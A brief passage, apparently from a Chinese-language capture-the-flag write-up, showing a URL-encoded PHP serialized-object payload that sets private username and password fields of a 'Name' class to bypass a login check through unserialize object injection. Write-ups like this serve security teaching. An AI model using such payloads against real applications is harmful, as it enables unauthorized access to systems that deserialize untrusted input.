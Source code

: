 因为有不可打印字符，所以选择经过URL编码后的

`payload：O%3A4%3A%22Name%22%3A2%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bi%3A100%3B%7D`

![](/pic/13.png)

